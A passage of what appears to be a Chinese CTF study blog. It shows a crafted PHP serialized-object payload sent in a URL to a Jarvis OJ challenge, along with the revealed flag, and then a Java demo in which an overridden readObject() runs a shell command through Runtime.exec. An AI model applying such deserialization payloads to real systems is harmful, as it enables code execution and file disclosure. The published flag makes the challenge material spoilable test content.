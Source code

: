 看到这个基本就对怎么拿到答案了，index.php 接收一个class， 这里有序列化操作，加上上面的序列化中 __construct 这个魔术函数有相关参数，那么就构造序列化的字符串应该就可以获取flag了

`http://web.jarvisoj.com:32768/?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}` 访问得到如下结果：

```
<?php 
	//Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
	//Fake flag:
	echo "FLAG: PCTF{I_4m_not_fl4g}"
?>
```


## jAVA反序列化

### Java反序列化概述

Java 序列化是指把 Java 对象转换为字节序列的过程便于保存在内存或文件中，实现跨平台通讯和持久化存储。ObjectOutputStream类的 writeObject() 方法可以实现序列化。反序列化则指把字节序列恢复为 Java 对象的过程，相应的，ObjectInputStream 类的 readObject() 方法用于反序列化。

### Java的反序列化代码


```
package com.company;
import java.io.*;


public class Main {

    public static void main(String[] args)throws Exception {
        MyObject myObject=new MyObject();
        myObject.name="hello world!";
        //创建一个包含对象进行反序列化信息的”object”数据文件
        FileOutputStream fos = new FileOutputStream("object");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        //writeObject()方法将obj对象写入object文件
        os.writeObject(myObject);
        os.close();
        //从文件中反序列化obj对象
        FileInputStream fis=new FileInputStream("object");
        ObjectInputStream ois=new ObjectInputStream(fis);
        //恢复对象
        MyObject obj2=(MyObject)ois.readObject();
        System.out.print(obj2.name);
        ois.close();
    }
}

class MyObject implements Serializable {
    //只有实现了Serializable接口的类的对象才可以被序列化
    public String name;
    //重写readObject()方法
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException{
        //执行默认的readObject()方法
        in.defaultReadObject();
        //执行打开计算器程序命令
        Runtime.getRuntime().exec("ls /home/fan/hugo_blog");
    }
}

```
